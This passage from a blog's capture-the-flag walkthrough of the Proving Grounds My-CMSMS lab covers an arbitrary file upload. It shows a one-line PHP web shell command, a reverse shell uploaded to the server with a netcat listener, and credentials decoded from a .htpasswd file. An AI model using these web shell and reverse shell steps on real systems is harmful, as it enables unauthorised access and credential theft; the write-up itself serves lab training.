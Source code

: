 ```
Now we can go to the target website and login because we know the new website password for admin. I followed a similar update when I transferred my old blog to this domain. [Resetting web app passwords through database access](https://www.hackerunder.dev/replacing-a-forgotten-wordpress-password/) is quite common. Since we have authenticated to the website, we can look at the [arbitrary file upload vulnerability](https://www.exploit-db.com/exploits/48742). The Exploit DB entry explains that PHP code in a .phtml file will execute code. Just simply upload it and visit it from the browser.

To test this we can upload a simple command execution PHP script. Create the script with a short one line command `echo "<?php system($_GET['cmd']);?>" > cmd.phtml` and upload it to the website using the admin “File Manager” module. Now we can get code execution by visiting http://TARGET\_IP/uploads/cmd.phtml?cmd=COMMAND. The server is a linux machine, so commands should be linux commands like whoami, ls, cd, pwd. With command execution, we could open a bind shell or connect back to the attacker machine… but I couldn’t make that work.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2021/06/mycmsms-cmd-exec-1024x195.png)</figure>My alternative was to copy Kali’s /usr/share/webshells/php/php-reverse-shell.php then modify it to include my IP address and intended port. Once I’ve built my reverse shell exploit, I uploaded it to the target website and launched netcat to listen for the reverse shell `sudo nc -nlvp 443`. Visiting http://TARGET\_IP/uploads/shell.phtml we get access to the server as the web service account www-data! This is also a limited sh shell, we can change it to a bash shell with `python -c 'import pty;pty.spawn("/bin/bash")'`.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2021/06/mycmsms-rev-shell-1024x334.png)</figure>Note: The reason I like to use port 443 is because of a coworker’s tip. Even when a firewall is enabled to block ports. Port 80 and 443 are open for HTTP and HTTPS traffic.

## Privilege Escalation

Now that we are on the server, the next step is more enumeration to find better access to the server. www-data is a service account that only has permission to run the website. We can not modify system settings or change other user’s information. While sharing on Discord, I did my enumeration poorly. I went straight to the /home directory and started looking for custom files. I saw one executable script owned by root and assumed it was a file to run commands as root.. This wasted a large amount of time before we realized it wasn’t what I thought it was. It looked related to setuid, but apparently [bash and linux protects against scripts elevating privileges](https://unix.stackexchange.com/questions/366365/suid-script-not-working-correctly). This was a rabbit hole that I fell into, proper enumeration and taking my time would have given me a better understanding of the intended attack path.

So let’s slow down and enumerate as we should. Using our low level access, we can find out about the system. There are many websites that walk you through what to check. [G0tm1lk’s blog post](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) is always a good choice. This time I googled and landed at <https://guif.re/linuxeop>. After some more enumerating, and focusing on /var/www/html because we are the www-data user. Not only did I find the user flag to submit for Proving Grounds, but I also saw .htaccess and .htpasswd.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2021/06/mycmsms-htpasswd-1024x673.png)</figure>Reading the .htpasswd file, we see a password value that looks base64 encoded. I say that because base64 strings usually end with one or two equal signs (=). There are many ways to decode a string, but a quick and dirty method is to use [cyberchef and the magic operation](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,'')&input=VFVaYVJ6SXpNMVpQU1RWR1J6SkVTazFXVjBkSlVVSlNSMGxhVVQwOVBUMD0) to guess the functions used to hash or encode the string. I say dirty because this uploads a value to someone’s site where it could be stored, analyzed, and possibly sold. If this was a client and not a lab machine, I’d be responsible for mishandling a client’s password! In CyberChef we see the original string is `Armour:Shield@123` which looks like our linux user and a password.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2021/06/mycmsms-cyberChef-1024x499.png)</figure>### Getting user and root access on My-CMSMS

```